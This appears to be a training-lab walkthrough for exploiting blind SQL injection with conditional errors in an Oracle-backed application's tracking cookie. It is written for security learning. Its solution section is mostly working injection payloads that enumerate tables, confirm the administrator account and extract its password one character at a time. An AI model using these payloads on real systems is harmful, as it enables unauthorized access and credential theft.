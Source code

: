 # Blind SQL injection with conditional errors
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.


# Solution

Expected query structure concerning TrackingId:\
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```

## Identyfing database type (vendor)
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '') ||'
```
|![](Images/image-14.png)|
|:--:| 
| Returns Error |

```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from dual) ||'
```
|![](Images/image-15.png)|
|:--:| 
| Payload worked. It is Oracle database |

```
Application is vulnerable - TrackingId=19nxWi7TLGPOQ4bv' || (select '' from tablethatdoestexist) ||'
```
|![](Images/image-16.png)|
|:--:| 
| Returns Error |

## Checking that the users table exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where rownum=1) ||'
```
Query above returns code 200 OK. It confirm that users table exists. \
`where rownum=1` is important because otherwise response would be HTTP 500. It limits result to 1. Otherwise application would output empty entry for every entry in database breaking the query.

## Checking that the user administrator exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where username='administrator') ||'
```
Using above query it is not possible to verify whether administrator user exists.

```
Test payload 1: ' || (SELECT CASE WHEN (1=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
|![](Images/image-17.png)|
|:--:| 
| *Test payload 1* |

```
Test payload 2: ' || (SELECT CASE WHEN (69=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
|![](Images/image-18.png)|
|:--:| 
| *Test payload 2* |

```
TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'
```
Order of execution of above query:
1. `FROM users where username='administrator'` is evaluated. 
2. If given user exist then the rest of the query is evaluated - `SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ...`

|![](Images/image-19.png)|
|:--:| 
| *User administrator exists* |

|![](Images/image-20.png)|
|:--:| 
| *User does NOT exist* |

## Retrieving password length of administrator’s password
Administrator’s password length is 20
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)>1) ||'
```

![](Images/image-21.png)
![](Images/image-22.png)

## Retrieve administrator’s password
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select case when (1=1) then TO_CHAR(1/0) else '' end from users where username='administrator' and SUBSTR(password,1,1)='a') ||'
```
![](Images/image-23.png)

HTTP 500 Response Code -> Correct letter \
HTTP 200 Response Code -> Wrong letter

